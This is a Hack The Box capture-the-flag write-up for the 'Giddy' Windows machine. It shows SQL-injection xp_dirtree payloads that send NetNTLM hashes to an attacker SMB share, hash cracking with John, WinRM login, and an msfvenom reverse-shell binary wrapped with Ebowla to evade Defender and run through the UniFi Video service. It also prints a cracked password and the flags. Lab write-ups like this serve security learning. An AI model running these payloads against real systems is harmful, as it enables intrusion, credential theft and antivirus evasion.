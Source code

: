 

Port 80 (http)
port 443 (https)
port 5985(winrm)

With port 80 open, let's take a look at the website in the browser, 
There is only a picture, nothing interesting, so we could try https (443) but it's the same thing.

Let's fuzz this website with the Wfuzz tool.

``` bash
wfuzz -c --hc=404 -w /user/share/seclist/..... http:/10.10.10.104/FUZZ
```

Wfuzz found two routes called "remote" and "mvc", let's chek them on the website.
"Remote" is a login panel, and "mvc" is a website that is not finished, but has some information; i'ts like a marketplace.

In this type of marketplace it is common to find  the url the parameter "ID" so I tried some payloads for sql injection, but it seems not be vulnerable. However, I got an error that showed me a Username, so I save it.  In windows there is a concept  we can try to exploit to steal NetNTLM hash from the user "xp_dirtree sql"  https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

To do this You should start a **SMB server** to capture the hash used in the authentication

``` bash
id=32; EXEC MASTER.sys.xp_dirtree '\\<attacker_IP>\any\thing'
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\share\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash

❯ sudo smbserver.py share ./ -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.104,49704)
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User GIDDY\Stacy authenticated successfully
[*] Stacy::GIDDY:aaaaaaaaaaaaaaaa:bdff9aca23108d45c047a166ab583683:01010000000000008028cda705edd901bbb40e736f58adb500000000010010006d0044004300570069006d0074006100030010006d0044004300570069006d00740061000200100079004c004b00480045004700630072000400100079004c004b0048004500470063007200070008008028cda705edd90106000400020000000800300030000000000000000000000000300000854cbb70e19a1dccbf562111b06affdf8f28608c7f8ee554fb53d14e855ac5500a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003500000000000000000000000000
``` 

In this way I obtained the NetNTLM hash for the user Stacy, I need to crack it using John
```
❯ john --wordlist=~/Documents/wordlist/rockyou.txt hash
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)
1g 0:00:00:01 DONE (2023-09-21 22:35) 0.6896g/s 1855Kp/s 1855Kc/s 1855KC/s xamtrex..x215534x
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Whit these credentials I can access  the victim machine using the evil-winrm tool
```
evil-winrm -i 10.10.10.104 -u 'stacy' -p 'xNnWo6272k7x'
```

Now I need to escalate privileges

There is a binary called "unifi video"
looking for a vulnerability with searchsploit I found an eexploit. To exploit it I need to do the following:

```
#I have write privileges in this directory
cd C:\ProgramData\unifi-video

# If I can stop and start the Unifi Video service, and when the service starts (the admin starts the service), it executes a binary, I would attempt to copy an arbitrary binary with malicious code. Then, when the service starts, my binary would be executed.

# The windows defender on the victim machine, doesn't allow me to execute my malicius binary, so I need to bypass this problem
# use Ebowla -> clone the repository https://github.com/Genetic-Malware/Ebowla
# create the malicius binary with msfvenom 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f exe -o taskkill.exe

#mv the taskkill.exe to the ebowla directory
# edit the genetic.config file -> select output_type = GO -> payload_type = EXE
# [[ENV_VAR]] 
# username = ''
# compoutername = 'Giddy'
# userdomain = ''
# now exuecute ebowla
python ebowla.py taskkill.exe genetic.config
#now I need to compile the .go file 
❯ ./build_x64_go.sh output/go_symmetric_taskkill.exe.go taskkill.exe
[*] Copy Files to tmp for building
[*] Building...
[*] Building complete
[*] Copy taskkill.exe to output
[*] Cleaning up
[*] Done

#now upload the final binary to the victim machine 
```

Now I need to stop  the service on the victim machine

``` powershell
# On my machine-> nc -nlvp 1234

# list the existing services on the victim machine
cd HKLM:SYSTEM\CurrentControlSet\Services  -> UniFiVideoService
*Evil-WinRM* PS C:\ProgramData\unifi-video> cmd /c sc stop UniFiVideoService

SERVICE_NAME: UniFiVideoService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0xbb8
```

Now I have gaine access as "nt authority\system" and i can finish this machine from hack the box.
user flag > c7a8f1ee50e00285f08f1b52ec5a76ba
root flag > dd23753bd49ff3f59cea11032a5c2529